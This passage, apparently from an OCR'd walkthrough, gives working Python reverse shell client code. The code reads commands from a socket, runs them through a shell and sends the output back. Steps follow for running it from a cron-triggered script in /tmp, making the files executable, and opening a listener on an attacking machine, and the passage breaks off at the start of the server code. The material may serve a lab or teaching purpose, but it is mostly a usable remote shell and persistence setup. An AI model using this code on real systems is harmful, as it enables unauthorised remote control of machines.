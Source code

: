 \# directly open a process for other commands and give the decoded string

\# pipe out stdout, stdin, and stderr

\# bytes piped into output\_bytes, converted into string and sent across connection

\# connection closed when while loop breaks

while True:

data = client.recv(1024)

if data\[:2].decode("utf-8") == 'cd':

os.chdir(data\[3:].decode("utf-8"))

if len(data) > 0:

cmd = subprocess.Popen(data\[:], shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)

output\_bytes = cmd.stdout.read()

output\_str = str(output\_bytes, "utf-8")

client.send(str.encode(output\_str + str(os.getcwd()) + '$'))

\#print(output\_str)

client.close()

1. CTRL+X to save and exit.

* Create test.py cron job file to run reverse shell.

1. nano /tmp/test1.py.
2. Add code to execute test.py\`.

python3 /tmp/test1.py

1. Make files executable.

chmod +x /tmp/test.py /tmp/test1.py

1. Create listener on attacking machine to catch connection.
   * Enter reverse shell server code from[ PYTHON REVERSE SHELL](https://medium.com/@rietesh/python-reverse-shell-hack-your-neighbours-552561336ca8).
   * nano ./Desktop/Python\_Reverse\_Shell\_Server.py.

import socket

import threading

import os

\# define send\_commands function that accepts socket object

\# encode commands and send across connection (conn.send)

\# make received data readable by converting to UTF-8 string

\# add end="" to responses to avoid new line character and move cursor to end

def send\_commands(conn):
